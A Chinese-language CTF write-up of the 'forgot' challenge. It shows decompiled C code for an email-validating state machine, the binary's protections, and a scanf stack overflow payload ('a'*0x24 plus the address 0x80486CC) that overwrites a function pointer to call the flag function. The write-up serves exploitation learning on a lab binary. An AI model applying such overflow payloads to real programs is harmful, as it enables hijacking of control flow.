 # forgot

题目来源：https://adworld.xctf.org.cn/task/

这道题虽然在做的过程中看了一下别人的 writeup，但是方法是我想出来的并且没有用到别人的方法，只是确认了一下函数的用法。先看一下代码，这个代码解析出来着实有点复杂：

```C
int __cdecl main()
{
  size_t v0; // ebx
  char v2[32]; // [esp+10h] [ebp-74h]
  int (*v3)(); // [esp+30h] [ebp-54h]
  int (*v4)(); // [esp+34h] [ebp-50h]
  int (*v5)(); // [esp+38h] [ebp-4Ch]
  int (*v6)(); // [esp+3Ch] [ebp-48h]
  int (*v7)(); // [esp+40h] [ebp-44h]
  int (*v8)(); // [esp+44h] [ebp-40h]
  int (*v9)(); // [esp+48h] [ebp-3Ch]
  int (*v10)(); // [esp+4Ch] [ebp-38h]
  int (*v11)(); // [esp+50h] [ebp-34h]
  int (*v12)(); // [esp+54h] [ebp-30h]
  char s; // [esp+58h] [ebp-2Ch]
  int v14; // [esp+78h] [ebp-Ch]
  size_t i; // [esp+7Ch] [ebp-8h]

  v14 = 1;
  v3 = sub_8048604;
  v4 = sub_8048618;
  v5 = sub_804862C;
  v6 = sub_8048640;
  v7 = sub_8048654;
  v8 = sub_8048668;
  v9 = sub_804867C;
  v10 = sub_8048690;
  v11 = sub_80486A4;
  v12 = sub_80486B8;
  puts("What is your name?");
  printf("> ");
  fflush(stdout);
  fgets(&s, 32, stdin);
  sub_80485DD((int)&s);
  fflush(stdout);
  printf("I should give you a pointer perhaps. Here: %x\n\n", sub_8048654);
  fflush(stdout);
  puts("Enter the string to be validate");
  printf("> ");
  fflush(stdout);
  __isoc99_scanf("%s", v2);
  for ( i = 0; ; ++i )
  {
    v0 = i;
    if ( v0 >= strlen(v2) )
      break;
    switch ( v14 )
    {
      case 1:
        if ( sub_8048702(v2[i]) )
          v14 = 2;
        break;
      case 2:
        if ( v2[i] == 64 )
          v14 = 3;
        break;
      case 3:
        if ( sub_804874C(v2[i]) )
          v14 = 4;
        break;
      case 4:
        if ( v2[i] == 46 )
          v14 = 5;
        break;
      case 5:
        if ( sub_8048784(v2[i]) )
          v14 = 6;
        break;
      case 6:
        if ( sub_8048784(v2[i]) )
          v14 = 7;
        break;
      case 7:
        if ( sub_8048784(v2[i]) )
          v14 = 8;
        break;
      case 8:
        if ( sub_8048784(v2[i]) )
          v14 = 9;
        break;
      case 9:
        v14 = 10;
        break;
      default:
        continue;
    }
  }
  (*(&v3 + --v14))();
  return fflush(stdout);
}
```

这个代码的中心意思是检测邮箱地址字符串的合法性。其中每一个 case 就是它所谓的定义的某个状态，整体是用了有限自动机写的。首先查看一下这个文件的安全防护：

```
	Arch:     i386-32-little                                                                 RELRO:    Partial RELRO                                                                   Stack:    No canary found                                                                 NX:       NX enabled                                                                     PIE:      No PIE (0x8048000) 
```

可以看出来可能这里面存在栈溢出。但是我当时觉得没必要构造出一个溢出漏洞，因为里面存在着一个有意思的语句：

```
(*(&v3 + --v14))();
```

v3 通过观察能知道里面存放的是一个函数指针，v14 是偏移量，根据代码逻辑它受到输入的地址字符串的限制，满足某种情况能够得到某个偏移量，然后执行对应的函数。

假设我们现在随便输入一串字符串，比如 aaaaa，那么它触发的是 v4 指向的那个函数。那有个想法就萌生了，如果我可以输入普通的字符串，然后覆盖掉其中某个函数的地址，指向打印 flag 的函数(在这个程序中给出了，地址是 0x80486CC，其实这个可以通过计算，但是 ida 里面已经给出了地址)。

查看 v2 字符串，发现它在栈中的位置靠下，并且按照输入顺序和变量定义的顺序来看正好能够覆盖到，所以只需要构造：

```
'a' * 0x24 + chr(0xCC) + chr(0x86) + chr(0x04) + chr(0x08)
```

> 其实 p32 本身也能够构造字符串，并且适用于 scanf，gets，read

网上有很多解法说灵活控制 v14 的值，意思是要盖到 v14，我觉得这道题里面并没有这个必要。
